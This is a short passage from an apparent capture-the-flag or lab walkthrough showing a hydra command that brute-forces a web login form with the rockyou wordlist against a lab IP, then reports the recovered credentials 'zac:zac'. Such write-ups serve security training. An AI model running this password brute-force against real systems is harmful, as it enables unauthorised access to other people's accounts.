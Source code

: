 ```bash
hydra -l zac -P /usr/share/wordlists/rockyou.txt 10.10.20.176 https-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials." -s 8080
```

![image-7.png](../../IMAGES/image-7.png)

We can see that credentials are:

```
zac:zac
```

Once we go into the login page, we can see this:

![image-8.png](../../IMAGES/image-8.png)
